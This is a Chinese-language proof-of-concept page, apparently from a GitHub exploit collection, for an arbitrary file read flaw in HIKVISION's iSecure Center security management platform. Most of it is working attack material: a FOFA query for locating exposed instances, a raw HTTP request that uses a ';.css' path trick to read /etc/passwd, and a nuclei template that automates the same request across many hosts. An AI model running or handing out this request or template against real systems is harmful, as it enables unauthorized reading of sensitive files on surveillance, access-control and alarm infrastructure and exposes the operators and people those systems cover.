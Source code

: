 ## 海康威视-综合安防管理平台-files-文件读取

HIKVISION iSecure Center综合安防管理平台是一套“集成化”、“智能化”的平台，通过接入视频监控、一卡通、停车场、报警检测等系统的设备。在其某接口处存在任意文件读取漏洞，攻击者可以读取系统任意敏感文件。

![4c21a71d9bf1158fb01d135407cc7937](https://github.com/wy876/POC/assets/139549762/4138463c-5aa9-4443-97b0-a021bfd9876a)

## fofa
```
综合安防管理平台
```

## poc
```
GET /lm/api/files;.css?link=/etc/passwd HTTP/1.1
Host: 
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
sec-ch-ua: "Google Chrome";v="117", "Chromium";v="117", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
```

## nuclei poc
```
id: hikvision-files-fileread

info:
  name: 海康威视-综合安防管理平台-files-文件读取
  author: hikvision-files-fileread
  severity: high

requests:
  - raw:
      - |
        GET /lm/api/files;.css?link=/etc/passwd HTTP/1.1
        Host: {{Hostname}}
        Connection: close
        Cache-Control: max-age=0
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

    matchers:
      - type: dsl
        dsl:
          - contains_all(all_headers,'attachment','fileName')

```
![](./assets/20231230200200.png)
